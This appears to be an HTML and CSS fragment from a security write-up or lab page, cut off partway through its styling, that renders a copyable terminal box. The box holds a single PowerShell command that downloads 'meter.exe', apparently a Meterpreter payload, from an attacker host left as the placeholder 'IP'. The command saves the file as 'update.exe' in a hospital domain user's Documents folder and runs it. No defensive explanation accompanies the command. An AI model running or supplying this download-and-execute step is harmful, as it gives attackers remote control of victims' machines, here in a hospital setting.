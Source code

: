 <div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">PowerShell Command</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash">(New-Object Net.WebClient).DownloadFile('http://IP/meter.exe', 'C:\Users\drbrown.HOSPITAL\Documents\update.exe'); Start-Process 'C:\Users\drbrown.HOSPITAL\Documents\update.exe'</code></pre>
    </div>
</div>

<style>
.terminal-container {
    background-color: #121212;
    border-radius: 10px;
    box-shadow: 0 4px 6px rgba(0,0,0,0.2);
    margin: 20px 0;
    overflow: hidden;
    position: relative;
}
.terminal-header {
    background-color: #1c1c1c;
    padding: 10px;
    display: flex;
    align-items: center;
    justify-content: center;
    position: relative;
}
.terminal-dot {
    width: 12px;
    height: 12px;
    border-radius: 50%;
    position: absolute;
    left: 10px;
}
.terminal-dot.red { background-color: #ff3b30; }
.terminal-dot.yellow { background-color: #ffcc00; }
.terminal-dot.green { background-color: #4cd964; }
.terminal-title {
    color: #a0a0a0;
    font-family: monospace;
    font-weight: bold;
}
.terminal-body {
    padding: 15px;
    background-color: #0a0a0a;
    color: #00ff00;
    font-family: 'Courier New', monospace;
}
.terminal-body pre {
    margin: 0;
    white-space: pre-wrap;
}
.copy-btn {